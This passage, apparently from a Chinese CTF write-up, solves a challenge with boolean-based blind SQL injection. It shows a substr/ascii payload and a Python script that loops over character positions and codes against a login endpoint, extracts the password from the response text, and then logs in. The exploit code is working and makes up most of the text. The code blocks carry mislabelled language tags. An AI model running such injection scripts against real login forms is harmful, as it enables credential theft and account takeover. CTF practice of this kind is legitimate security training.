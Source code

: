 ```vbnet
ascii(substr((select(password))from(1)
 
这里只需要修改 1 2 3 就可以获取这个首字符的ascii
```

所以我们开始构造

```cobol
import requests
import string,hashlib
import time
url = 'http://114.67.175.224:18038/'
string1 = string.digits + (string.ascii_lowercase)
password = ''
for i in range(1,40):
        for k in range(48, 128):
                payload = """a'or((ascii(substr((select(password))from({0})))-{1}))#""".format(i,k)
                data = {
                    'username':payload,
                    'password':'abcd'
                }
                try:
                    res = requests.post(url, data=data, timeout=5)
                except:
                    time.sleep(2)
                    res = requests.post(url, data=data, timeout=5)
                if 'username does not exist!' in res.text:
                    password += chr(k)
                    print(password)
                    break
                res.close()
```

速度确实快了很多



<img src="https://i-blog.csdnimg.cn/blog_migrate/ac3bab12bbf6a592b4d9d33b2bb8240e.png" alt="" style="max-height:438px; box-sizing:content-box;" />


然后我们登入即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/93707adf79d7af71781910241934096c.png" alt="" style="max-height:388px; box-sizing:content-box;" />